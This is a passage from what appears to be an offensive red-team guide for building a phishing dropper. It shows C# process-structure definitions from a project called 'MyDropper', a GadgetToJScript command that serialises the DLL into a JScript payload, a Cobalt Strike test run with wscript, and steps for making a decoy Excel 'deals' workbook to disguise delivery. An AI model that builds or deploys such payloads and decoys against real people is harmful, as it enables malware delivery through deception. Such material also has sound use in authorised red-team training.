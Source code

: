 ```csharp
    public struct PROCESS_INFORMATION
    {
        public IntPtr hProcess;
        public IntPtr hThread;
        public uint dwProcessId;
        public uint dwThreadId;
    }
 
    public enum PROCESSINFOCLASS
    {
        ProcessBasicInformation = 0
    }
 
    public struct PROCESS_BASIC_INFORMATION
    {
        public uint ExitStatus;
        public IntPtr PebBaseAddress;
        public ulong AffinityMask;
        public int BasePriority;
        public ulong UniqueProcessId;
        public ulong InheritedFromUniqueProcessId;
    }
}

```

1. Build the project to a DLL in Release mode.
2.  Serialise the DLL using G2JS.

    ```terminal-nocolor
    terminalTypeCopyC:\Tools\GadgetToJScript\GadgetToJScript\bin\Release\GadgetToJScript.exe -a .\source\repos\MyDropper\bin\Release\MyDropper.dll -w js -b -o C:\Payloads\deals\deals
    ```

### Sanity Test <a href="#sanity-test" id="sanity-test"></a>

Launch Cobalt Strike and test the serialised payload by running wscript C:\Payloads\deals\deals.js in a command prompt.

## Decoy <a href="#decoy" id="decoy"></a>

1. Open Excel and create a new blank workbook.
2.  Add some dummy deals data.

    ```xlsx-nocolor
    xlsxTypeCopyid  product      discount  code
    1   Prodder      56%       54473-150
    2   Viva         9%        0378-5713
    3   Aerified     22%       43742-0187
    4   Zaam-Dox     26%       35356-687
    5   Rank         41%       63323-300
    6   Pannier      61%       50804-302
    7   Wrapsafe     32%       67046-223
    8   Voltsillam   58%       55910-721
    9   Ventosanzap  4%        0485-0051
    10  Otcom        54%       36987-2281
    ```
3. Save the workbook as _C:\Payloads\deals\deals.xlsx_.
